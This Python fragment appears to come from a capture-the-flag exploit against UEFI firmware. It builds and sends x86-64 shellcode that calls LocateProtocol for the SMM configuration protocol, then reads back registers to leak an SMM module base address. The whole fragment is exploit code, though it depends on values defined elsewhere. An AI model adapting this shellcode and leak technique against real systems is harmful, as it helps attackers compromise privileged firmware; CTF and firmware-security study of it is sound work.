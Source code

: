 ```python

def list_to_int(l, sl):
    s = 0
    for i in range(len(l)):
        s <<= sl
        s += l[len(l) - i - 1]
    return s

efi_base = 0
for guid in guids:
    guid = guid.strip()
    name, value = guid.split('= {')
    name = name.strip()
    value = value.strip()
    value = value.replace('}}', '').replace('{', '').replace(' ', '').split(',')
    value = list(map(lambda x: int(x, 16), value))
    if name != 'gEfiSmmConfigurationProtocolGuid': # (PiSmmCpuDxeSmm.efi)
        continue

    protocol_guid = []
    protocol_guid.append(list_to_int(value[:1], 32))
    protocol_guid.append(list_to_int(value[1:3], 16))
    protocol_guid.append(list_to_int(value[3:7], 8))
    protocol_guid.append(list_to_int(value[7:], 8))
    protocol_guid_str = ','.join(map(hex, protocol_guid))

    sc = asm(
    f"""
    /* Get LocateProtocol() addr */
    mov rax, {addr_system_table + offset_BS}
    mov rax, qword ptr [rax]
    mov rax, qword ptr [rax + {offset_LocateFunc}]

    /* LocateProtocol(&protocol_guid, NULL, &protocol_buff) */
    lea rcx, qword ptr [rip + protocol_guid]
    xor rdx, rdx
    lea r8, qword ptr [rip + protocol_buff]
    call rax

    mov rbx, qword ptr [rip + protocol_buff]
    ret

    dummy: .fill 12,1,0
    protocol_guid: .long {protocol_guid_str}
    protocol_buff: .long 0
    """)

    r.sendline(sc.hex())
    r.sendline('done')
    r.recvuntil('done')
    
    r.recvuntil('RAX: ')
    rax = int(r.recvuntil(' ', drop=True), 16)
    r.recvuntil('RBX: ')
    rbx = int(r.recvuntil(' ', drop=True), 16)

    if rax != 0:
        continue

    if rbx > smm_base:
        print(f"{name}: {hex(rbx)}")
        efi_base = rbx - 0x16210
        break
```